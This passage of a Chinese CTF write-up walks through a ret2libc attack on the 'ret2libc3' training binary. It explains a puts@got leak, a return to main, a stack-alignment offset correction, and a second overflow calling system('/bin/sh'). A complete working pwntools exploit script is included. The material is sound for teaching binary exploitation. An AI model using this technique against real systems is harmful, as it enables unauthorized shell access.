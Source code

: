 7. 构建攻击脚本

其实可以发现，使用`LibcSearcher`库可以直接得到`system()`和`"/bin/sh"`的地址，因此我们直接通过`LibcSearcher`构建攻击脚本，但是在此之前，我们先捋一下攻击的过程

- 首先第一次栈溢出，返回地址`put@plt`，让程序执行`puts()`，参数为`puts@got`，带出`puts()`的实际地址
- 然后程序需要返回`main()`函数，因为我们得到`puts()`的地址后，程序会继续进行下去，如果此时不返回`main()`函数，而是直接停止执行，那么得到的`puts()`函数的地址将没有任何意义
- 程序返回`main()`函数重新执行，然后进行第二次栈溢出，第二次栈溢出与第一次有些不同，因为`_start`函数有一句`and esp, 0FFFFFFF0h`进行了堆栈平衡，在`and`语句之前，esp的值是`0xffffade8`，而经过`and`之后，esp的值就变为了`0xffffade0`。所以问题就出在 `_start`函数的`and`语句，要是直接返回`main`函数就相当于少了一个`and`操作，`esp`的位置也就多了8，因此第二次溢出只需要104字节
- 然后程序返回`system()`，调用`"/bin/sh"`，最终`getshell`

```py
from pwn import *
from LibcSearcher import *

elf = ELF('./ret2libc3')
sh = process('./ret2libc3')

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main = elf.symbols['main']

payload = flat([b'a' * 112, puts_plt, main, puts_got])
sh.sendlineafter('Can you find it !?', payload)

puts_addr = u32(sh.recv()[0: 4])
libc = LibcSearcher('puts', puts_addr)
libc_base = puts_addr - libc.dump('puts')
system_addr = libc_base + libc.dump('system')
bin_sh = libc_base + libc.dump('str_bin_sh')

payload = flat([b'a' * 104, system_addr, b'bbbb', bin_sh])
sh.sendline(payload)
sh.interactive()
```

执行脚本，成功`getshell`

